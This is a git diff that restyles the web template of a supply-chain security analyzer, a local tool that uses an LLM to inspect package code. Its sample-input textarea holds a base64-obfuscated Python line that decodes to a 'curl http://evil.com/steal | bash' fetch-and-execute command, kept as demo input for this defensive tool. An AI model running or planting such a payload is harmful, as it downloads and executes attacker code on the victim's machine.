

Before and after one commit to ishanhooda25/package-integrity-checker, a Python web app: template templates/index.html in a window 1280 px wide. After the commit the page ends 792 px from the top, so only its background shows below. Run offline with Jinja, Linux system fonts and the light colour scheme; the template is opened without the code that fills it, so the values that code supplies are empty; some libraries are stand-ins or nearby versions.

Commit message:
refined the webpage UI

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -1,89 +1,154 @@
 <!DOCTYPE html>
-<html lang="en">
+<html lang="en" class="h-full bg-[#050811]">
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Supply-Chain Security Analyzer | Local AI Dashboard</title>
+    <title>Supply-Chain Security Analyzer | Cyber Tactical HUD</title>
     <script src="https://cdn.tailwindcss.com"></script>
+    <link href="https://fonts.googleapis.com/css2?family=Fira+Code:wght@400;500;600;700&family=Inter:wght@400;500;600;700;800&display=swap" rel="stylesheet">
+    <style>
+        body { font-family: 'Inter', sans-serif; }
+        code, textarea, input[type="text"], .font-mono { font-family: 'Fira Code', monospace; }
+        .cyber-grid {
+            background-image: linear-gradient(to right, rgba(0, 242, 254, 0.03) 1px, transparent 1px),
+                              linear-gradient(to bottom, rgba(0, 242, 254, 0.03) 1px, transparent 1px);
+            background-size: 30px 30px;
+        }
+        .glow-cyan { box-shadow: 0 0 20px rgba(0, 242, 254, 0.15); }
+        .glow-crimson { box-shadow: 0 0 20px rgba(255, 0, 85, 0.2); }
+        .glow-mint { box-shadow: 0 0 20px rgba(0, 255, 157, 0.2); }
+    </style>
 </head>
-<body class="bg-slate-950 text-slate-100 min-h-screen font-sans">
+<body class="bg-[#050811] text-slate-100 min-h-screen flex flex-col cyber-grid relative selection:bg-cyan-500 selection:text-black">
 
-    <header class="border-b border-slate-800 bg-slate-900/50 backdrop-blur sticky top-0 z-50">
-        <div class="max-w-7xl mx-auto px-6 py-4 flex justify-between items-center">
+    <!-- Top Navigation / HUD Bar -->
+    <header class="border-b border-cyan-500/20 bg-[#070d1e]/80 backdrop-blur-md sticky top-0 z-50">
+        <div class="max-w-7xl mx-auto px-6 py-3.5 flex justify-between items-center">
             <div class="flex items-center space-x-3">
-                <div class="bg-indigo-600 p-2 rounded-lg text-white font-bold">🛡️</div>
+                <div class="bg-gradient-to-br from-cyan-500 to-blue-600 p-2 rounded-lg text-black font-black text-lg shadow-lg shadow-cyan-500/30">
+                    🛡️
+                </div>
                 <div>
-                    <h1 class="text-xl font-bold tracking-tight">Supply-Chain Security Analyzer</h1>
-                    <p class="text-xs text-slate-400">Powered by Local <span class="text-indigo-400 font-semibold">gemma4:12b</span> &amp; OpenSSF OSV</p>
+                    <div class="flex items-center space-x-2">
+                        <h1 class="text-lg font-bold tracking-wider uppercase text-cyan-400">CyberSec Analyzer</h1>
+                        <span class="text-[10px] uppercase tracking-widest px-2 py-0.5 rounded bg-cyan-950 text-cyan-300 border border-cyan-500/30 font-mono">v2.4 TAC</span>
+                    </div>
+                    <p class="text-xs text-slate-400">Target Engine: <span class="text-cyan-300 font-medium">gemma4:12b (Ollama Local)</span></p>
                 </div>
             </div>
-            <span class="inline-flex items-center px-3 py-1 rounded-full text-xs font-medium bg-emerald-500/10 text-emerald-400 border border-emerald-500/20">
-                ● Ollama Active (gemma4:12b)
-            </span>
+
+            <div class="flex items-center space-x-4">
+                <div class="flex items-center space-x-2 bg-[#0a1226] border border-cyan-500/20 px-3 py-1.5 rounded-lg text-xs">
+                    <span class="w-2 h-2 rounded-full bg-emerald-400 animate-pulse"></span>
+                    <span class="text-slate-300 font-mono">OLLAMA: READY</span>
+                </div>
+            </div>
         </div>
     </header>
 
-    <main class="max-w-7xl mx-auto px-6 py-8 grid grid-cols-1 lg:grid-cols-3 gap-8">
+    <!-- Main Content Grid -->
+    <main class="max-w-7xl mx-auto px-6 py-6 grid grid-cols-1 lg:grid-cols-12 gap-6 flex-1 w-full">
 
-        <!-- Left Column -->
-        <div class="lg:col-span-1 space-y-6">
-            <!-- Scan Local Repo Box with Path Input -->
-            <div class="bg-slate-900 border border-slate-800 rounded-xl p-6 shadow-xl">
-                <h2 class="text-base font-semibold mb-2">📂 Load Local OSV Database</h2>
-                <p class="text-xs text-slate-400 mb-3">Enter the path to your malicious-packages repository folder.</p>
+        <!-- Left Panel: Controls & Repository Scanner (5 Cols) -->
+        <div class="lg:col-span-5 space-y-6 flex flex-col">
 
-                <input type="text" id="repoPathInput" value="/Users/atharvbansal/Desktop/college/malicious-packages" class="w-full bg-slate-950 border border-slate-800 rounded-lg px-3 py-2 text-xs text-slate-200 mb-3 focus:outline-none focus:border-indigo-500 font-mono">
-
-                <button onclick="scanRepo()" class="w-full bg-emerald-600 hover:bg-emerald-500 text-white font-medium py-2 px-4 rounded-lg text-sm transition-colors shadow-lg shadow-emerald-600/20">
-                    Scan Local Repository
-                </button>
-            </div>
-
-            <!-- Custom Sandbox -->
-            <div class="bg-slate-900 border border-slate-800 rounded-xl p-6 shadow-xl">
-                <h2 class="text-base font-semibold mb-2">⚡ Live AI Threat Explainer</h2>
-                <div class="space-y-4 mt-3">
-                    <div>
-                        <label class="block text-xs font-medium text-slate-400 mb-1">Target / File Path</label>
-                        <input type="text" id="inputPath" value="setup.py" class="w-full bg-slate-950 border border-slate-800 rounded-lg px-3 py-2 text-sm text-slate-200 focus:outline-none focus:border-indigo-500">
-                    </div>
-                    <div>
-                        <label class="block text-xs font-medium text-slate-400 mb-1">Code Snippet / Payload</label>
-                        <textarea id="inputCode" rows="5" class="w-full bg-slate-950 border border-slate-800 rounded-lg p-3 text-xs font-mono text-indigo-300 focus:outline-none focus:border-indigo-500">import os, base64
-exec(base64.b64decode('aW1wb3J0IG9zCmlzLnN5c3RlbSgnY3VybCBodHRwOi8vZXZpbC5jb20vc3RlYWwgfCBiYXNoJyk='))</textarea>
-                    </div>
-                    <button onclick="analyzeSnippet()" id="analyzeBtn" class="w-full bg-indigo-600 hover:bg-indigo-500 text-white font-medium py-2 px-4 rounded-lg text-sm transition-colors shadow-lg shadow-indigo-600/20">
-                        Run Local AI Analysis
+            <!-- Target Directory Config -->
+            <div class="bg-[#080e21]/90 border border-cyan-500/20 rounded-xl p-5 glow-cyan relative overflow-hidden">
+                <div class="absolute top-0 right-0 w-32 h-32 bg-cyan-500/5 rounded-full blur-2xl pointer-events-none"></div>
+                <h2 class="text-xs font-bold text-cyan-400 uppercase tracking-widest mb-3 flex items-center">
+                    <span class="mr-2">📂</span> Local Repository Target
+                </h2>
+                <div class="space-y-3">
+                    <input type="text" id="repoPathInput" value="/Users/atharvbansal/Desktop/college/malicious-packages"
+                        class="w-full bg-[#030611] border border-slate-700/80 rounded-lg px-3.5 py-2.5 text-xs text-cyan-300 focus:outline-none focus:border-cyan-400 font-mono transition-colors">
+                    <button onclick="scanRepo()" class="w-full bg-gradient-to-r from-emerald-500 to-teal-600 hover:from-emerald-400 hover:to-teal-500 text-black font-bold py-2.5 px-4 rounded-lg text-xs tracking-wider uppercase transition-all shadow-lg shadow-emerald-500/20 flex items-center justify-center space-x-2">
+                        <span>⚡ Scan OSV Database</span>
                     </button>
                 </div>
             </div>
 
-            <!-- Discovered Packages List -->
-            <div class="bg-slate-900 border border-slate-800 rounded-xl p-6 shadow-xl">
-                <h3 class="text-sm font-semibold mb-3 text-slate-300">📦 Discovered Repo Advisories</h3>
-                <div id="repoList" class="space-y-2 max-h-60 overflow-y-auto text-xs text-slate-400">
-                    Click "Scan Local Repository" above to load files.
+            <!-- Code Analysis Sandbox -->
+            <div class="bg-[#080e21]/90 border border-slate-800 rounded-xl p-5 flex-1 flex flex-col">
+                <h2 class="text-xs font-bold text-amber-400 uppercase tracking-widest mb-3 flex items-center">
+                    <span class="mr-2">🧪</span> Code Threat Inspection Sandbox
+                </h2>
+                <div class="space-y-3 flex-1 flex flex-col">
+                    <div>
+                        <label class="block text-[10px] font-bold text-slate-400 uppercase tracking-wider mb-1">Target File Identifier</label>
+                        <input type="text" id="inputPath" value="setup.py"
+                            class="w-full bg-[#030611] border border-slate-800 rounded-lg px-3 py-2 text-xs text-slate-200 focus:outline-none focus:border-cyan-500">
+                    </div>
+                    <div class="flex-1 flex flex-col">
+                        <label class="block text-[10px] font-bold text-slate-400 uppercase tracking-wider mb-1">Payload / Source Code Snippet</label>
+                        <textarea id="inputCode" rows="6"
+                            class="w-full flex-1 bg-[#030611] border border-slate-800 rounded-lg p-3 text-xs font-mono text-cyan-300 focus:outline-none focus:border-cyan-500 resize-none leading-relaxed">import os, base64
+exec(base64.b64decode('aW1wb3J0IG9zCmlzLnN5c3RlbSgnY3VybCBodHRwOi8vZXZpbC5jb20vc3RlYWwgfCBiYXNoJyk='))</textarea>
+                    </div>
+                    <button onclick="analyzeSnippet()" id="analyzeBtn"
+                        class="w-full bg-gradient-to-r from-cyan-500 to-blue-600 hover:from-cyan-400 hover:to-blue-500 text-black font-bold py-3 px-4 rounded-lg text-xs uppercase tracking-widest transition-all shadow-lg shadow-cyan-500/20">
+                        Run Gemma 4 Deep Analysis
+                    </button>
                 </div>
             </div>
+
+            <!-- Discovered Advisories Container -->
+            <div class="bg-[#080e21]/90 border border-slate-800 rounded-xl p-5 max-h-56 flex flex-col">
+                <h3 class="text-xs font-bold text-slate-400 uppercase tracking-widest mb-3 flex justify-between items-center">
+                    <span>📦 Discovered Advisories</span>
+                    <span id="advisoryCount" class="text-[10px] px-2 py-0.5 rounded bg-slate-800 text-slate-300 font-mono">0 Loaded</span>
+                </h3>
+                <div id="repoList" class="space-y-2 overflow-y-auto flex-1 pr-1 text-xs font-mono">
+                    <div class="p-3 rounded-lg border border-dashed border-slate-800 text-slate-500 text-center text-xs">
+                        Click "Scan OSV Database" above to load package definitions.
+                    </div>
+                </div>
+            </div>
+
         </div>
 
-        <!-- Right Column: Output -->
-        <div class="lg:col-span-2 space-y-6">
-            <div class="bg-slate-900 border border-slate-800 rounded-xl p-6 shadow-xl min-h-[550px] flex flex-col">
-                <div class="flex justify-between items-center mb-4 pb-3 border-b border-slate-800">
-                    <h2 class="text-lg font-semibold">📋 Analysis Output</h2>
-                    <span id="statusBadge" class="text-xs px-2.5 py-1 rounded-full bg-slate-800 text-slate-400 font-medium">Idle</span>
+        <!-- Right Panel: AI Assessment & Output (7 Cols) -->
+        <div class="lg:col-span-7 flex flex-col space-y-6">
+
+            <div class="bg-[#080e21]/90 border border-slate-800 rounded-xl p-6 flex-1 flex flex-col glow-cyan relative min-h-[600px]">
+
+                <!-- Output Bar Header -->
+                <div class="flex flex-wrap justify-between items-center pb-4 border-b border-slate-800 gap-3">
+                    <div class="flex items-center space-x-3">
+                        <span class="w-3 h-3 rounded-full bg-cyan-400"></span>
+                        <h2 class="text-sm font-bold uppercase tracking-wider text-slate-200">AI Security Evaluation</h2>
+                    </div>
+                    <div class="flex items-center space-x-3">
+                        <span id="statusBadge" class="text-xs font-mono px-3 py-1 rounded-full bg-slate-900 text-slate-400 border border-slate-800">
+                            STANDBY
+                        </span>
+                    </div>
                 </div>
 
-                <div id="loadingSpinner" class="hidden flex-1 flex flex-col items-center justify-center space-y-3 py-16">
-                    <div class="animate-spin rounded-full h-10 w-10 border-b-2 border-indigo-500"></div>
-                    <p class="text-sm text-slate-400">Querying local gemma4:12b model via Ollama...</p>
+                <!-- Interactive Threat Gauge -->
+                <div class="py-4 border-b border-slate-800/60 flex items-center justify-between px-2">
+                    <div class="text-xs font-mono text-slate-400 uppercase">Threat Level Metric:</div>
+                    <div class="w-2/3 bg-[#030611] rounded-full h-3 p-0.5 border border-slate-800 overflow-hidden flex">
+                        <div id="threatBar" class="h-full rounded-full bg-gradient-to-r from-cyan-500 via-amber-400 to-rose-600 transition-all duration-700" style="width: 15%"></div>
+                    </div>
                 </div>
 
-                <div id="outputContainer" class="flex-1 bg-slate-950 rounded-lg p-6 border border-slate-800/80 text-sm font-mono text-slate-300 whitespace-pre-wrap overflow-y-auto leading-relaxed">
-Select a package from your local repository or run an analysis to view AI threat breakdowns.
+                <!-- Loading Overlay -->
+                <div id="loadingSpinner" class="hidden flex-1 flex flex-col items-center justify-center space-y-4 py-20">
+                    <div class="relative w-16 h-16 flex items-center justify-center">
+                        <div class="absolute inset-0 rounded-full border-2 border-cyan-500/20"></div>
+                        <div class="absolute inset-0 rounded-full border-2 border-cyan-400 border-t-transparent animate-spin"></div>
+                        <span class="text-xs font-mono text-cyan-400 animate-pulse">AI</span>
+                    </div>
+                    <p class="text-xs font-mono text-cyan-300">Evaluating payload via local gemma4:12b...</p>
                 </div>
+
+                <!-- Analysis Text View -->
+                <div id="outputContainer" class="flex-1 bg-[#030611] rounded-lg p-5 border border-slate-800/80 text-xs font-mono text-slate-300 whitespace-pre-wrap overflow-y-auto leading-relaxed mt-4">
+Select a package advisory from the repository list or click "Run Gemma 4 Deep Analysis" to inspect code anomalies and supply-chain vulnerabilities.
+                </div>
+
             </div>
+
         </div>
 
     </main>
@@ -91,8 +156,10 @@ Select a package from your local repository or run an analysis to view AI threat
     <script>
         async function scanRepo() {
             const repoList = document.getElementById('repoList');
+            const advisoryCount = document.getElementById('advisoryCount');
             const userPath = document.getElementById('repoPathInput').value;
-            repoList.innerHTML = "<span class='text-indigo-400'>Scanning folder...</span>";
+
+            repoList.innerHTML = `<div class="p-3 text-center text-cyan-400">Scanning filesystem at targeted path...</div>`;
 
             try {
                 const response = await fetch('/api/scan-repo', {
@@ -104,22 +171,31 @@ Select a package from your local repository or run an analysis to view AI threat
 
                 if (data.status === 'success' && data.packages.length > 0) {
                     repoList.innerHTML = "";
+                    advisoryCount.textContent = `${data.packages.length} Loaded`;
+
                     data.packages.forEach(pkg => {
-                        const btn = document.createElement('button');
-                        btn.className = "w-full text-left bg-slate-950 hover:bg-slate-800/80 border border-slate-800 p-2.5 rounded-lg text-xs transition-colors mb-2";
-                        btn.innerHTML = `<span class="font-bold text-red-400">${pkg.id}</span><p class="text-slate-400 truncate mt-0.5">${pkg.summary}</p>`;
-                        btn.onclick = () => {
+                        const card = document.createElement('div');
+                        card.className = "bg-[#050b1a] hover:bg-[#0b142e] border border-slate-800 hover:border-cyan-500/40 p-3 rounded-lg cursor-pointer transition-all group";
+                        card.innerHTML = `
+                            <div class="flex justify-between items-start mb-1">
+                                <span class="font-bold text-rose-400 group-hover:text-rose-300">${pkg.id}</span>
+                                <span class="text-[9px] px-1.5 py-0.5 rounded bg-rose-950 text-rose-300 border border-rose-800/50">HIGH</span>
+                            </div>
+                            <p class="text-[11px] text-slate-400 line-clamp-2 leading-normal">${pkg.summary}</p>
+                        `;
+                        card.onclick = () => {
                             document.getElementById('inputPath').value = pkg.path;
                             document.getElementById('inputCode').value = pkg.details;
                             analyzeSnippet();
                         };
-                        repoList.appendChild(btn);
+                        repoList.appendChild(card);
                     });
                 } else {
-                    repoList.innerHTML = "No packages found or invalid directory path.";
+                    advisoryCount.textContent = "0 Loaded";
+                    repoList.innerHTML = `<div class="p-3 text-center text-amber-400">No OSV advisories found at target path. Check path format.</div>`;
                 }
             } catch (err) {
-                repoList.innerHTML = "Error connecting to server.";
+                repoList.innerHTML = `<div class="p-3 text-center text-rose-400">Network Error: Unable to contact local server.</div>`;
             }
         }
 
@@ -129,13 +205,16 @@ Select a package from your local repository or run an analysis to view AI threat
             const outputContainer = document.getElementById('outputContainer');
             const loadingSpinner = document.getElementById('loadingSpinner');
             const statusBadge = document.getElementById('statusBadge');
+            const threatBar = document.getElementById('threatBar');
             const btn = document.getElementById('analyzeBtn');
 
             btn.disabled = true;
             loadingSpinner.classList.remove('hidden');
             outputContainer.classList.add('hidden');
-            statusBadge.textContent = "Processing...";
-            statusBadge.className = "text-xs px-2.5 py-1 rounded-full bg-indigo-500/10 text-indigo-400 font-medium border border-indigo-500/20";
+
+            statusBadge.textContent = "ANALYZING";
+            statusBadge.className = "text-xs font-mono px-3 py-1 rounded-full bg-cyan-950 text-cyan-400 border border-cyan-500/40 animate-pulse";
+            threatBar.style.width = "45%";
 
             try {
                 const response = await fetch('/api/analyze', {
@@ -150,18 +229,22 @@ Select a package from your local repository or run an analysis to view AI threat
 
                 if (data.status === 'success') {
                     outputContainer.textContent = data.analysis;
-                    statusBadge.textContent = "Complete";
-                    statusBadge.className = "text-xs px-2.5 py-1 rounded-full bg-emerald-500/10 text-emerald-400 font-medium border border-emerald-500/20";
+                    statusBadge.textContent = "THREAT EVALUATED";
+                    statusBadge.className = "text-xs font-mono px-3 py-1 rounded-full bg-emerald-950 text-emerald-400 border border-emerald-500/40";
+                    threatBar.style.width = "85%";
                 } else {
-                    outputContainer.textContent = "Error: " + data.message;
-                    statusBadge.textContent = "Error";
-                    statusBadge.className = "text-xs px-2.5 py-1 rounded-full bg-red-500/10 text-red-400 font-medium border border-red-500/20";
+                    outputContainer.textContent = "Error during analysis: " + data.message;
+                    statusBadge.textContent = "SYSTEM ERROR";
+                    statusBadge.className = "text-xs font-mono px-3 py-1 rounded-full bg-rose-950 text-rose-400 border border-rose-500/40";
+                    threatBar.style.width = "10%";
                 }
             } catch (err) {
                 loadingSpinner.classList.add('hidden');
                 outputContainer.classList.remove('hidden');
-                outputContainer.textContent = "Network Error.";
-                statusBadge.textContent = "Failed";
+                outputContainer.textContent = "Network Error: Unable to connect to Python backend server.";
+                statusBadge.textContent = "FAILED";
+                statusBadge.className = "text-xs font-mono px-3 py-1 rounded-full bg-rose-950 text-rose-400 border border-rose-500/40";
+                threatBar.style.width = "0%";
             } finally {
                 btn.disabled = false;
             }
```
